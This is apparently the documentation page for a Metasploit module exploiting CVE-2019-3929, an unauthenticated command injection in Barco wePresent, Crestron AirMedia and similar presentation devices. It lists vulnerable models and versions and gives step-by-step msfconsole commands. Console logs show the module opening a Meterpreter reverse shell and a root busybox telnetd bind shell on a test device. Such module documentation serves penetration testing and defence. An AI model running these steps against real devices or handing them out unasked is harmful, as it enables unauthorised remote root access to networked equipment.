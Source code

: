 ## Vulnerable Application

This module exploits [CVE-2019-3929](https://nvd.nist.gov/vuln/detail/CVE-2019-3929). The vulnerability affects [WePresent](https://www.barco.com/en/page/wepresent) devices, as well as many OEM devices (listed below). The vulnerability is an unauthenticated remote command injection via HTTP POST request to the /cgi-bin/file_transfer.cgi endpoint. 

The following devices are known to be affected by this issue:

* Barco wePresent WiPG-1000P <= 2.3.0.10
* Barco wePresent WiPG-1600W <= 2.4.1.19
* Crestron AM-100 <= 1.6.0.2
* Crestron AM-101 <= 2.7.0.1
* Extron ShareLink 200/250 <= 2.0.3.4
* Teq AV IT WIPS710 <= 1.1.0.7
* InFocus LiteShow3 <= 1.0.16
* InFocus LiteShow4 <= 2.0.0.7
* Optoma WPS-Pro <= 1.0.0.5
* Blackbox HD WPS <= 1.0.0.5
* SHARP PN-L703WA <= 1.4.2.3

## Verification Steps

  1. Acquire one of the vulnerable devices.
  2. Start msfconsole
  3. Do: `use exploit/linux/http/wepresent_cmd_injection`
  4. Do: `set RHOSTS <device ip>`
  5. Do: `check`
  6. The module should indicate if the target is vulnerable or not.
  7. Do: `set LHOST <ip>`
  8. Do: run
  9. A meterpreter session should be started

## Scenarios

### Tested against Crestron AM-100 1.6.0.2 

#### Meterpreter

```
msf5 > use exploit/linux/http/wepresent_cmd_injection 
msf5 exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf5 exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf5 exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf5 exploit(linux/http/wepresent_cmd_injection) > run

[*] Started reverse TCP handler on 10.12.70.238:4444 
[*] Command Stager progress -   9.95% done (127/1276 bytes)
[*] Command Stager progress -  19.98% done (255/1276 bytes)
[*] Command Stager progress -  29.94% done (382/1276 bytes)
[*] Command Stager progress -  39.97% done (510/1276 bytes)
[*] Command Stager progress -  50.00% done (638/1276 bytes)
[*] Command Stager progress -  59.95% done (765/1276 bytes)
[*] Command Stager progress -  69.75% done (890/1276 bytes)
[*] Command Stager progress -  79.62% done (1016/1276 bytes)
[*] Command Stager progress -  89.50% done (1142/1276 bytes)
[*] Sending stage (904600 bytes) to 10.12.70.246
[*] Command Stager progress - 100.08% done (1277/1276 bytes)
[*] Command Stager progress - 101.33% done (1293/1276 bytes)
[*] Meterpreter session 1 opened (10.12.70.238:4444 -> 10.12.70.246:40805) at 2020-01-09 05:53:34 -0500

meterpreter > shell
Process 31774 created.
Channel 1 created.
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
```

#### Busybox/Telnetd Bind Shell

```
msf5 > use exploit/linux/http/wepresent_cmd_injection 
msf5 exploit(linux/http/wepresent_cmd_injection) > set target 0
target => 0
msf5 exploit(linux/http/wepresent_cmd_injection) > set payload cmd/unix/bind_busybox_telnetd 
payload => cmd/unix/bind_busybox_telnetd
msf5 exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf5 exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf5 exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf5 exploit(linux/http/wepresent_cmd_injection) > run

[*] Started bind TCP handler against 10.12.70.246:4444
[*] Command shell session 1 opened (10.12.70.238:41457 -> 10.12.70.246:4444) at 2020-01-09 05:56:36 -0500

whoami
whoami
root
~/boa/cgi-bin # uname -a
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
~/boa/cgi-bin # 
```

